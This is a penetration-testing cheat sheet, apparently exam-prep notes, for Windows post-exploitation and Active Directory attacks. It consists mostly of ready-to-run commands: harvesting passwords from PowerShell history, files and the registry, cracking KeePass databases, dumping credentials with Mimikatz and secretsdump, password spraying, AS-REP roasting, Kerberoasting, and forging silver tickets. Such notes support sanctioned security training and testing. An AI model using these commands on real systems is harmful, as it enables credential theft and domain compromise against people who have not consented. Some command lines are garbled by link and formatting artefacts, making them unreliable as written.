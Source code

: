 # Post Exploitation

### Post Exploitation

This is more windows specific as exam specific.

💡 Run WinPEAS.exe - This may give us some more detailed information as now we're a privileged user and we can open several files, gives some edge!

#### Sensitive Information

#### Powershell History

```bash
type %userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt
```

Example:

```bash
type C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt
```

#### Searching for passwords

```bash
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

#### Searching in Registry for Passwords

```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

💡 Always check documents folders, it may contain some juicy files

#### KDBX Files

These are KeyPassX password stored files

```bash
cmd> dir /s /b *.kdbx
```

```powershell
Ps> Get-ChildItem -Recurse -Filter *.kdbx
```

Cracking:

```bash
keepass2john Database.kdbx > keepasshash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt keepasshash
```

#### Dumping Hashes

1. Mimikatz
2. If this is a domain joined machine, then follow Post-exp steps for AD.

### Active Directory Pentesting

#### Enumeration

To check local administrators in domain joined machine

```bash
net localgroup Administrators
```

#### Powerview

```powershell
Import-Module .\\[PowerView.ps](<http://PowerView.ps>)1  #loading module to powershell, if it gives error then change execution policy
Get-NetDomain  #basic information about the domain
Get-NetUser  #list of all users in the domain
```

* The above command's outputs can be filtered using "select" command. For example, `Get-NetUser | select name`

```powershell
Get-NetGroup  # enumerate domain groups
Get-NetGroup "group name"  # information from specific group
Get-NetComputer  # enumerate the computer objects in the domain
Find-LocalAdminAccess  # scans the network in an attempt to determine if our current user has administrative access
Get-NetSession -ComputerName files04 -Verbose  #Checking logged on users with Get-NetSession
Get-NetUser -SPN | select samaccountname,serviceprincipalname  # Listing SPN accounts in domain
Get-ObjectAcl -Identity USERNAME  # enumerates ACE(access control entities), lists SID(security identifier)
Convert-SidToName SID  # converting SID/ObjSID to name
```

* Checking for "GenericAll" right for a specific group, after obtaining they can be converted to name

```powershell
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier | select -ExpandProperty SecurityIdentifier | Convert-SidToName
Find-DomainShare  #find the shares in the domain
Get-DomainUser -PreauthNotRequired -verbose  # identifying AS-REP roastable accounts
Get-NetUser -SPN | select serviceprincipalname  #Kerberoastable accounts
```

#### Bloodhound

* Collection methods - database
* Sharphound - transfer [sharphound.ps](http://sharphound.ps)1 into the compromised machine

```powershell
Import-Module .\\[Sharphound.ps](<http://Sharphound.ps>)1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\\temp\\ -OutputPrefix "name"
```

* Bloodhound-Python

```bash
bloodhound-python -u 'username' -p 'password' -ns DC_IP -d [DOMAIN.COM](<http://DOMAIN.COM>) -c all  #output will be in json format
```

* Running Bloodhound

```bash
sudo neo4j console
```

* then upload the .json files obtained

#### PsLoggedon

To see user logons at remote system of a domain(external tool)

```bash
PsLoggedon.exe \\\\TARGET_COMPUTER
```

#### Attacking Active Directory Authentication

💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don't have proper creds.

#### Password Spraying

* Crackmapexec - check if the output shows 'Pwned!'

```bash
crackmapexec smb SUBNET_OR_IP -u users.txt -p 'password' -d DOMAIN --continue-on-success
```

* Kerbrute

```bash
kerbrute passwordspray -d [corp.com](<http://corp.com>) users.txt "password"
```

#### AS-REP Roasting

```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #this gives us the hash
Rubeus.exe asreproast /nowrap  #dumping from compromised windows host
hashcat -m 18200 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Kerberoasting

```bash
Rubeus.exe kerberoast /outfile:hashes.kerberoast  #dumping from compromised windows host
impacket-GetUserSPNs -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #from kali machine
hashcat -m 13100 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Silver Tickets

* Obtaining hash of an SPN user using Mimikatz

```
privilege::debug
sekurlsa::logonpasswords  #obtain NTLM hash of the SPN account here
```

* Obtaining Domain SID

```powershell
ps> whoami /user
```

* this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369"
* Forging silver ticket using Mimikatz

```
kerberos::golden /sid:<domainsid> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit
```

* we can check the tickets by,

```powershell
ps> klist
```

* Accessing service

```powershell
ps> iwr -UseDefaultCredentials <http://web04.corp.com:8080/>
```

#### Secretsdump

```bash
[secretsdump.py](<http://secretsdump.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```
